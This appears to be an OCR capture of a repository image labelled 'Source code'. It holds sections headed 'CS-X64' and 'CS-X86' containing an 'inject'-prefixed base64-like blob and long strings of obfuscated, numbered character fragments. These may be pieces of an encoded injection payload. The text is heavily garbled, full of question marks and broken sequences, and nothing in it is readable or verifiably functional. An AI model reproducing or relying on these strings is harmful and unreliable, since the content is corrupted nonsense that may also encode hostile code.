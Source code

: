# CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsadf48|2?,?5;6,f??;10,?Y;14??,r;????1????8,.;??22???,??8;???26???,t;????30,@;??34????,@;?38,m??;????42,i????;46???,t;50??,2;54?,???0;58,?5;6?2,????1;????66,E;????70???,Y;7???4??,?Y;78,?n??;8?2,D;8?6,s???;90,H???;94,????S;9???8???,m;10????2????,s;?106,G?;110,????z;11????4,F;1?1?8??,3;1????22,s;??126,???d?;???130,??c;1??34,?c;?138,?l;??142,????W;1????46?,???A;15?0,U;????154,?4;1????58,Y;???162???,r;1?66,a??;17???0?,h;1?7???4,d?;?17???8,??L;18???2??,?c;1???86,i;??190????,L;?|N????yD5rw????x?fgHz??Y?jL?yr?wEz.??tb0??8L9B???tzJ????b@???xmj@v???kt????mMLr??i9cb??t????L?yf2Cl????w???03u???z5X????0R11D???LElV??2Y???V1???D??Y???mMXnN????BzD??mNNs????b??fqHu????vYSJ??DnmqV???usc?XC????GDd???2zwo???5Fw???ov30?aus???ru?AdxB???zcEY???McxfB????lzgcW???frC???A?s4MU?15??z4?ru???gYe????BXrs??muad????fwh????f?Lrd??3B????DLA?3Mc?3y????n??i????0?e9Lrthrf


gjsedn48|2,???V;6?,C;1?0,????a;1????4??,3;????1??8,K;2??2,7;??26,????U;????30,e;?34,t;?38,r;???42,i??;46????,t???;50??,?x;5??4,Z;5???8,N??;62,?h???;???66,R?;70,????A;74????,0;78????,h;8???2,??K;86,??m;90,?p;94????,a;98?,?F???;?102?,???k;106???,8??;110,??C;1????14,.;??118,3?;??1??22,@;??12???6,6;1??30,W??;134,????i;???138,?8??;1???42,o?;????14????6???,C??;????150,Y??;154???,?,;15????8??,T??;??162??,.;16??6,??c;17??0,b;?174,c?;178???,u????;182?,w?;186,????J;1??90????,B;|N????y????DVrw???xCg???H???za??j????Ly3????w?EzK????tb07L????9BUz?J?bexmj??tvkt????rM???Lri9c?btLyf???xC?lw???Z3uzN???X0R??h1DLR?lV2??A????V?1D0mM????XhNBz???KmN?Nm???bfqpu?vY??aJDnF???q????Vu????k?cXC8D?d2???Cwo???5.?wov30?au?@ruA??6xBzW???EYMi????xf???B8z??gco???frCCs???4N???Y6b?B,L0g?T2u??v????.ok??xc4?blbP3?fcMun?umbx????wjHB?J??GZ9Bkmyjn
